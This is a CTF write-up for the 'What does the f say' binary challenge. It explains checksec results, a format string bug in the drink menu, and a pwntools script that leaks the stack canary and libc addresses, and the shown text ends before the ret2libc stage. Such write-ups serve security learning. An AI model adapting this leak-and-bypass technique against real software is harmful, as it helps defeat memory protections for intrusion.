 # What does the f say
`Buffer Overflow` `64-Bits Binary` `Ret2Libc` `Canary` `Format String`
<br>
<br>

This challenge for me personally is very challenging since it combine a format string vulnerability with a ret2libc.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Above I've done the checksec for the binary, and everything is on, from `Full RELRO` meaning we can't hijack any function there, the binary also has a Canary, and `PIE enabled` which mean all the address is randomized each time we run the binary.

First I try to decompile the binary and found out that the binary has 2 option, either we get the `drink` or `food`, and in the `drink` section if we choose `Kryptonite` we're given 2 options, either the red or green, **BUT** I tried to put some format string payload there which is `%p` and it prints out an address.

<p align=center>
    <img src="./format.png" width=80%>
    <br>
    <h5 align=center> format string vulnerability @drink_menu</h5> 
</p>

Simply I do some bruteforcing to find useful address for the exploitation, and since the PIE is on, we're also looking for leaked function address. After a while I found some useful addresses such as `libc_read`, `canary`, `fox_bar`, `libc_start_main` - So first I write my python code to get 'em. (note I didn't use the read at last since I can use the start main address)

```python
from pwn import *

binary = './wdf'
elf = context.binary = ELF(binary)

p = process(binary)

p.recv()
p.sendline(b'1')
print(p.recv())
p.sendline(b'2')
p.sendlineafter(b'Red or Green Kryptonite?\n', b'%13$p %15$p %25$p')
leak = p.recv() .split(b'\n')
leak = leak[0].split(b' ')
canary = int(leak[0],16)
base = int(leak[1],16) 
lism = int(leak[2],16) 
log.info(f'Canary : {hex(canary)}')
log.info(f'Base : {hex(base)}')
log.info(f'Libc Start : {hex(lism)}')
```
